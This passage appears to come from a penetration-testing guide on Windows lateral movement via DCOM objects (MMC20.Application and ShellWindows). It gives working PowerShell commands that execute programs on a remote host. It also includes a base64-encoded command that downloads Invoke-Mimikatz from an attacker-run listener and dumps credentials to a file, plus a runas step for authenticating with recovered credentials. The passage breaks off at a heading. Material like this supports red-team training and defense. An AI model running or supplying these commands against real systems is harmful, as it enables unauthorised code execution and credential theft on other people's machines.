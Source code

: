 **Port:** 135/TCP (RPC), plus one high-random TCP (DCOM)

**Tools:** native .NET calls on Windows

**Example code execution:**

```
PS> $com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.112.200"))
PS> $com.Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\calc.exe",$null,$null,"7")
```

**Example Invoke-Mimikatz** (listener started on 192.168.112.132:8000)**:**

```
PS> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes("IEX (New-Object Net.WebClient).DownloadString('http://192.168.112.132:8000/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds > C:\\Users\\josh\\Desktop\\mimi.txt"))

PS> $com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.112.200"))
PS> $com.Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe",$null,"-enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEAMQAyAC4AMQAzADIAOgA4ADAAMAAwAC8ASQBuAHYAbwBrAGUALQBNAGkAbQBpAGsAYQB0AHoALgBwAHMAMQAnACkAOwAgAEkAbgB2AG8AawBlAC0ATQBpAG0AaQBrAGEAdAB6ACAALQBEAHUAbQBwAEMAcgBlAGQAcwAgAD4AIABDADoAXABcAFUAcwBlAHIAcwBcAFwAagBvAHMAaABcAFwARABlAHMAawB0AG8AcABcAFwAbQBpAG0AaQAuAHQAeAB0AA==","7") 
```

* * *

## ShellWindows Object

A few weeks after his initial research on MMC lateral movement, Matt Nelson published more research targeting DCOM objects that lacked an explicit LaunchPermission attribute. Read his post [here](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/) for a thorough review of the techniques shown below.

Successful auth over RPC is required; however, regardless of privilege the code will execute as a child of the explore.exe process with limited privileges. No scaping memory directly with this method.. :(

**Port:** 135/TCP (RPC), plus one high-random TCP (DCOM)

**Tools:** native .NET calls on Windows

When invoking .NET calls in this fashion, the existing auth token is used. Great for lateral movement from a compromised system, but not if you are remotely accessing a target machine with recovered credentials. The simplest method we have found is to create a new PS Session with runas.

**Example auth:**

```
PS> runas /netonly /user:TESTLAB\josh "powershell.exe" 
```

**Example code execution:**
